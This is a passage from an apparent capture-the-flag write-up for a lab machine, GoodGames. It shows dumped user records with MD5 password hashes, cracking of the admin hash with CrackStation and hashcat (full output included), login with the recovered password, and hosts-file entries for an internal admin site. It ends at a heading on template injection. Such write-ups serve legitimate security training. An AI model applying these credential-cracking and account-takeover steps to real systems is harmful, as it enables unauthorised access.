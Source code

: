 - Dumped users are

```bash
1:admin:admin@goodgames.htb:2b22337f218b2d82dfc3b6f77e7cb8ec
2:syselement:syselement@syselement.com:47b7bfb65fa83ac9a71dcb0f6296bb6e
```

### Crack the hash

Try to crack admin's hash `2b22337f218b2d82dfc3b6f77e7cb8ec` with [https://crackstation.net/](https://crackstation.net/) or search Google

```bash
# Cracked hash is
superadministrator
```

```bash
# Or with hashcat
hashcat hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule -m 0

2b22337f218b2d82dfc3b6f77e7cb8ec:superadministrator       
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 0 (MD5)
Hash.Target......: 2b22337f218b2d82dfc3b6f77e7cb8ec
Time.Started.....: Mon Jul  7 01:12:28 2025 (16 secs)
Time.Estimated...: Mon Jul  7 01:12:44 2025 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Mod........: Rules (/usr/share/hashcat/rules/best64.rule)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........: 16653.5 kH/s (4.33ms) @ Accel:512 Loops:77 Thr:1 Vec:16
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 267688960/1104517645 (24.24%)
Rejected.........: 0/267688960 (0.00%)
Restore.Point....: 3475456/14344385 (24.23%)
Restore.Sub.#1...: Salt:0 Amplifier:0-77 Iteration:0-77
Candidate.Engine.: Device Generator
Candidates.#1....: supercecy01 -> s713!s
Hardware.Mon.#1..: Util: 97%
```

📌 Login with `admin@goodgames.htb:superadministrator`

- As admin, there is an extra gear icon at the top right of the page, that links to
  - `http://internal-administration.goodgames.htb/login`

```bash
# Add to /etc/hosts
10.10.11.130 goodgames.htb internal-administration.goodgames.htb
```

### SSTI
